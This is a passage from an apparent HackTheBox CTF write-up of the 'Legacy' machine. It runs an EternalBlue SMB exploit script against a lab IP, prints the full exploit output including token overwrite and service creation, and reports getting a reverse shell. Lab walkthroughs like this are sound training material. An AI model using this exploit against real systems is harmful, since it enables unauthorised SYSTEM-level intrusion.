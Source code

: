 Start up a listener on your attack machine.

![Untitled](/medias/images/legacy/Untitled%201.png)

Run the exploit.

```bash
python2 send_and_execute.py 10.129.223.133 /home/kali/Documents/CTF/HackTheBox/Machine/Windows/Easy/Legacy/eternalblue.exe     1 ⨯
Trying to connect to 10.129.223.133:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x821785b0
SESSION: 0xe21a7f58
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe10f2d08
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe10f2da8
overwriting token UserAndGroups
Sending file 9XP3L9.exe...
Opening SVCManager on 10.129.223.133.....
Creating service FPZD.....
Starting service FPZD.....
The NETBIOS connection with the remote host timed out.
Removing service FPZD.....
ServiceExec Error on: 10.129.223.133
nca_s_proto_error
Done
```

We have a reverse shell!

![Untitled](/medias/images/legacy/Untitled%202.png)

Next, we need to figure out what privileges we are running with.

![Untitled](/medias/images/legacy/Untitled%203.png)

**Whoami** doesn’t seem to work and we can’t echo the username. Therefore, we’ll have to get creative. Kali has a **whoami** executable that we can import to our target machine.

![Untitled](/medias/images/legacy/Untitled%204.png)
